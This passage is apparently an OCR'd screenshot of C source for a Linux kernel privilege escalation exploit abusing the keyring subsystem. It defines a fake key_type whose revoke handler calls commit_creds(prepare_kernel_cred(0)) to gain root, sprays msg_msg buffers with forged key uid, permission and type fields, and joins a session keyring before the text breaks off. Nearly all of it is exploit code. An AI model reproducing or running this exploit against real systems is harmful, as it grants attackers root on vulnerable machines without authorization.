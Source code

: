 ```c++
    void * instantiate;
    void * update;
    void * match_preparse;
    void * match_free;
    void * revoke;
    void * destroy;
};

void userspace_revoke(void * key) {
    commit_creds(prepare_kernel_cred(0));
}

int main(int argc, const char *argv[])
{
	const char 			*keyring_name;
	size_t				i = 0;
    unsigned long int	l = 0x100000000/2;
	key_serial_t		serial = -1;
	pid_t 				pid = -1;
    struct key_type 	*my_key_type = NULL;
    int					msqid;
	
	struct 
	{
		long mtype;
		char mtext[STRUCT_LEN];
	} msg = {0x4141414141414141, {0}};
	
	if (argc != 2) {
		puts("usage: ./keys <key_name>");
		return 1;
	}

    printf("uid=%d, euid=%d\n", getuid(), geteuid()); 
    commit_creds = (_commit_creds) COMMIT_CREDS_ADDR;
    prepare_kernel_cred = (_prepare_kernel_cred) PREPARE_KERNEL_CREDS_ADDR;
    
    my_key_type = malloc(sizeof(*my_key_type));
    my_key_type->revoke = (void*)userspace_revoke;	// backdoor function
	
    memset(msg.mtext, 'A', sizeof(msg.mtext));
	
    // key->uid
    *(int*)(&msg.mtext[56]) = 0x3e8; /* geteuid() */
	
    //key->perm
    *(int*)(&msg.mtext[64]) = 0x3f3f3f3f;
	
    //key->type
    *(unsigned long *)(&msg.mtext[80]) = (unsigned long)my_key_type;
	
    if ((msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1) {
        perror("msgget");
        exit(1);
    }
	
    keyring_name = argv[1];
	
	/* Set the new session keyring before we start */
	serial = keyctl(KEYCTL_JOIN_SESSION_KEYRING, keyring_name);
	
	if (serial < 0) {
		perror("keyctl");
```